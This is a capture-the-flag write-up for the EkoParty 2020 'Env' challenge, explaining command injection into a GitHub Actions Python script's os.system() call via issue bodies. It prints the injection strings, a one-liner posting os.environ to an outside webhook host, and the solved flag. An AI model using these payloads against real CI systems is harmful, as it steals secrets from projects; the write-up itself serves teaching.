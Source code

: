 ```yaml
---
title: "EkoPartyCTF - Env"
author: "Lyell Read"
date: 2020-09-28T00:00:00-07:00
categories: ['Writeups']
tags: ['ekoparty2020']
caption: "EkoPartyCTF logo"

draft: false
---
```


EkoParty CTF 2020 Git 3

## Prompt

Not too sure of the original prompt, however I did not need it.

## Solution

After [the second part of the git challenge saga](https://github.com/lyellread/ctf-writeups/blob/master/2020-ekoparty/docs), we have gotten a new repository with some new github actions. We know, before analyzing these however, that:

- Issues filed to the `ekolabs` repo will be ‘moved’ to the `ekoparty-internal` repo.
- We control content in the submitted issues, and this is copied to the new issues in `ekoparty-internal` repo.

That’s good information. Now let’s examine the actions for this repo – we are provided an `issue-notify.py` and an `issue-notify.yml`. At first glance at the python script, we see two interesting things:

- The script checks `if 'very important' in title:` before executing an `os.system()` call
- The script runs our ‘user input’ (the body of the issue) in the call to `os.system()`.

What can we do with this? If we put “very important” in the title, and we include a specific body, we can execute arbitrary commands using the call to `os.system()`. How so?

```
os.system('echo "%s" > /tmp/%s' % (body, notify_id))
```

This line is vulnerable, as the `body` of our issue is placed in it’s entirety in the place of the first `%s`, so if we were to enter `"`, this would become:

```
os.system('echo """ > /tmp/%s' % (body, notify_id))
```

Which would echo an empty string to `/tmp/$notify_id`. This will not do, however, so we need something more complicated to do the trick. Maybe something like sending `body` of `"; sleep 10; echo "` will do better, as it will turn into:

```
os.system('echo ""; sleep 10; echo "" > /tmp/%s' % (body, notify_id))
```

> Note: I did not come up with this all in one shot, I had to prototype it. I did this with the [test.py](https://github.com/lyellread/ctf-writeups/blob/master/2020-ekoparty/env/test.py) script.

This will execute the `sleep 10` just fine. We have code execution now, we just need to find out what to do with it. The challenge name indicates the flag is likely stored in the environment variables so we know where to look, but how to extract this info from the server?

To determine what tools are available for use, I looked to `issue-notify.yml`:

```
    runs-on: ubuntu-latest
    steps:
      
      ...

      - name: Set up Python3
        if: ${{ success() }}
        uses: actions/setup-python@v1
        with:
        	python-version: "3.7"
```

We at least have a default installation of Python 3.7 to work with, that’s pretty good. To make use of that, we will need to have somewhere to send it, and that’s where a webhook tester, something that captures and displays (in this case) http requests sent to it. For this I used PipeDream. It provides you with a link to send requests to.

From there, it’s as easy as getting the environment variables `os.environ`, and sending them home to PipeDream with a little one-line bash / python script of sorts:

```
" && python3 -c "import requests; message = {'message': str(os.environ)}; r = requests.post('https://e756afb172e9b06dad06e8cfeff52a32.m.pipedream.net',data = message);" && echo "
```

That’s all there is to it: sending that returns [envs](https://github.com/lyellread/ctf-writeups/blob/master/2020-ekoparty/env/envs) to PipeDream, and it’s right in there.

```
EKO{b08bb4814d581e6a91b3501f8c63c7786fe624e1}
```

~ Lyell Read
